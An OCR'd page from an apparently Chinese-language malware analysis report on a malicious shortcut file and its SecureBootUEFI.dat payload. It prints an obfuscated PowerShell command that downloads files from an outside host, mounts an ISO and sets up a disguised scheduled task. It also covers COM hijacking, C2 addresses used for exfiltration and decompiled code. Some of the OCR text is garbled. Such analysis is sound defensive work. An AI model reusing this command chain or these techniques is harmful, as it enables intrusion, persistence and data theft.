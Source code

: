 Targetcreated: 2022-05-1109:09:09   
Targetmodified: 2022-05-1109:09:09   
Targetaccessed:2023-02-0105:11:32  

File size:452,608  

Flags:HasTargetIdList, HasLinkInfo, HasRelativePath, HasArguments,HasIconLocation,IsUnicode, HasExpIcon, EnableT  

Fileattributes:FileAttributeArchive   
Iconindex:13   
Show window:SwShowminnoactive (Display the window as minimized without activating it.) RelativePath:....>..\..\Windows\System32\WindowsPowerShelL\v1.0powersheLl.exe   
Arguments:\$ProgressPreference='SilentlyContinue';i'w''r https://guangzhou.nihaoucloud.org/gsdgsd89iop/sdfger23ty-Ou tFile C:\Users\Public\21333.pdf;s'a'p's C:\Users\Public\21333.pdf;i\*w\*r https://guangzhou.nihaoucloud.org/nmityu89o p/uiop9tyoer -OutFile "C:\Windows\Tasks\Windows_22H.iso";\$hi =m''ou'nt-di'skim'age -im C:\Windows\Tasks\Windows_22H. iso;\$d=（g''et-d'iskimage \$hi.imagepath| g"'et-v''olu'me).DriveLetter;c''p"'i E:\\*C:\Windows\Tasks\;c''p''i'C:\u sers\Public\21333.pdf'-destination.;sch"'ta's''ks/c''r'e''a''te/Scminute/Tn EdgeUpdateTask/trC:\Windows\Tasks \Winver';Di''smou'nt-Dis'kIm''age -im C:\Windows\Tasks\Windows_22H.iso;e''ra''se C:\Windows\Tasks\\*.i?o;e''r''a''s''e \*d?.?n?   
[conLocation:C:\Program Files(x86)\Microsoft\Edge\Application\msedge.exe  

regit.Ink的主要功能是将之前释放的文件SecureBootUEFl.da重命名为SecureBootUEFl.dat，并劫持系统COM组件F82B4EF1-93A9-4DDE-8015-F7950A1A6E31，利用该COM组件执行SecureBootUEFI.dat。  

2.2.1.1SecureBootUEFl.dat分析描述  

SecureBootUEFl.dat的主要功能有两个：  

1.文件夹遍历：从服务端获取需要需要检索的文件夹路径，并将获取的文件信息拼接后作为UA回传到服务端。  
2.组件下载并加载执行：从服务端下载后续载荷并加载运行。  

在SecureBootUEFl.dat中字符串的加解密算法变为异或3。  

获取主机名和用户名，后续将获取的数据拼接后异或加密作为首次通信url的一部分：  

$\vee70=$ (struct_a1 \*)operator new(0x50ui64);   
memset_180024210(v70, 0, sizeof(struct_a1));   
$=$ sub_1800021EC(v70);   
GetComputerNameW((LPWSTR)Buffer, &nSize);   
GetUserNameW((LPWSTR)v122, &nSize);   
sub_1800013CC((_m128i \*\*)&v91, (const _m128i \*)L"vpfqsqlejof");// useprofile  

解密出两个通信C2，其中一个C2用于从服务端获取数据并执行，一个用于数据的上传（用户信息及文件夹遍历结果），为方便后续描述，分别命名为server1和server2：  

# 1. server1: hxxps://bitbucket.org/whekacj/whekacj/downloads/ 2. server2: hxxps://c.statcounter.com/12959673/0/7901c79c/1/  

sub_1800013cc(（m128i\*\*)&v91,（const_m128i\*)L"kwwsp9,,-pwbw1vmwfq-1n,21:6:540,3,4:324:,2,");//https://c.statcounter.com/12959673/0/7901c79c/1/   
\*（_OWORD\*）&v67[1]=0i64;   
V68 = 0i64;   
v69 = 0i64;   
v4=（const m128i\*)&v91;   
if（v93>7) v4=（const m128i \*)v91;   
sub_1800015A4((_m128i)&v67[1],V4,v92);   
v5=xor_decrypt_180002164（v71,（const_m128i \*)&v67[1]);   
if（Source 1=（wchar_t\*\*)v5） Free_180001540((_int64)Source); d_180023B7θ((m128i\*)Source,v5,0x20ui64); v5[1].m128i_i64[0]=0i64; v5[1].m128i_164[1] =7i64; v5->m128i_i16[0]=0;   
Free_180001540((_int64)v71);   
v6=（const wchar_t)Source;   
if（v90>7） v6 = Source[0];   
wescpy_s(Destination,0x64ui64,v6);   
sub_180o013cc（（_m128i\*\*)&v91,（const_m128i\*)L"kwwsp9,ajwavhfw-lqd,tkfhbii,tkfhbii,gltmolbgp,");//https://bitbucket.org/whekacjj/whekacjj/dovloads/  
